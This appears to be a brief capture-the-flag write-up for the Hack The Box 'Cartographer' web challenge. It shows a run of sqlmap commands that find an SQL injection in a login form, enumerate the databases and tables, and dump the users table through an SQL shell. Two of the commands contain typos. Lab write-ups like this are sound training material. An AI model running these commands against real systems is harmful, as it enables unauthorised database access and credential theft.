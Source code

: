 # Cartographer
Solution to Hack The Box Challenge - Cartographer

### Problem

It's a web that exposes you a login form and you must discover the username and password to gain access.

### Solution

SQL Injection using SQLMap
[SQLMap - automatic SQL injection](http://sqlmap.org/)

Tell SQLMap to detect vulnerabilites sending a payload example (extracted from the form)
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd"
```

SQL detect a vulnerability that you can exploit. So you tell it to list all the dbs
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --dbs
```

It has the dbs. So list the tables
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --tables -D cartographer
```

It has the tables. So list the columns of the table that I was interested.
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" --colums -T users -D cartographer
```

It has all the info. So I want to use a sql query to consume it. SQLMap can give me access to a SQL console using this command
```bash
sqlmap -u http://docker.hackthebox.eu:31837/ --data="username=asd&password=asd" ---D cartographer --sql-shell
```

Send a query to get the accounts.
```bash
sql-shell> SELECT * FROM cartographer.users
```
